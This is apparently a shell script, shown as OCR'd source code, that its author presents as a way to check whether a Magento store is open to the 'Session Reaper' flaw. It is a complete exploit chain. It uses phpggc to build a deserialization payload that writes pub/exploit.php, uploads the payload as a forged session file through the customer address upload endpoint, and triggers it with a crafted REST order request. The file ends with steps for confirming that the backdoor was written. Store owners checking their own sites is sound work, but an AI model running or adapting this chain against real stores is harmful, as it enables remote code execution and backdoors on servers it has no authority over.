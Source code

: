 ```sh

# Variables
USERAGENT="${USERAGENT:-SamJUK-SecurityChecker/1.0}"

# Computed Variables
SESSID=$(cat /dev/urandom | tr -dc 'a-z0-9' | fold -w 26 | head -n 1)
TMP_PAYLOAD_RAW=$(mktemp)
TMP_PAYLOAD_FILE="/tmp/sess_$SESSID"

printf "=================================================\n"
printf "SamJUK Session Reaper Exploit Validation Script\n"
printf "\n"
printf " Target: %s\n" "$HOST"
printf " Root Path: %s\n" "$ROOT"
printf " User-Agent: %s\n" "$USERAGENT"
printf " Session ID: %s\n" "$SESSID"
printf "=================================================\n"

# Create Payload
printf "[i] Creating payload file ...\n\e[2m"
echo "<?php phpinfo(); ?>" > "$TMP_PAYLOAD_RAW"
phpggc -se -pub -a Guzzle/FW1 "$ROOT/pub/exploit.php" "$TMP_PAYLOAD_RAW" > "$TMP_PAYLOAD_FILE"
printf "\e[0m[i] Payload file created at %s\n\n" "$TMP_PAYLOAD_FILE"

# Upload Payload
printf "[i] Uploading payload file ...\n\e[2m"
FORMKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 16 | head -n 1)
curl --header "User-Agent: $USERAGENT" -ks --cookie "form_key=$FORMKEY" -F "form_key=$FORMKEY" -F "custom_attributes[country_id]=@$TMP_PAYLOAD_FILE" "$HOST/customer/address_file/upload"
printf "\e[0m\n[i] Payload uploaded.\n\n"

# Trigger Payload
printf "[i] Triggering payload execution ...\n\e[2m"
curl --header "User-Agent: $USERAGENT" -ks -X PUT --cookie "PHPSESSID=$SESSID" --header 'Accept: application/json' "$HOST/rest/default/V1/guest-carts/samjuk-securitychecker/order" --json '{"paymentMethod":{"paymentData":{"context":{"urlBuilder":{"session":{"sessionConfig":{"savePath":"media/customer_address/s/e"}}}}}}}'
printf "\e[0m\n[i] Payload triggered.\n\n"

# Cleanup
printf "[i] Cleaning up generated files ...\n\e[2m"
rm -v "$TMP_PAYLOAD_RAW" "$TMP_PAYLOAD_FILE"
printf "\e[0m[i] Cleanup complete.\n\n"

# Completion Message
printf "=================================================\n"
printf "Exploit attempt complete.\n"
printf "\n"
printf "To confirm if the exploit was successful:\n"
printf "\n"
printf "1. File Upload Vulnerability:\n"
printf "  - Check if the file upload was successful by running \`find pub/media/customer_address/s/e/ -type f\`\n"
printf "  - Look for a file starting with 'sess_'\n"
printf "\n"
printf "2. Payload Execution:\n"
printf "  - Check for a file named 'exploit.php' in the 'pub' directory.\n"
printf "\n"
printf "3. Backdoor Execution:\n"
printf "  - Check if your store is configured incorrectly, and you can access arbitrary files via the URL: %s/pub/exploit.php\n" "$HOST"
printf "  - Note: If you cannot access the URL, it does not mean your site is safe. Malicious users may override pub/index.php and pub/static.php files if they are writeable.\n"
```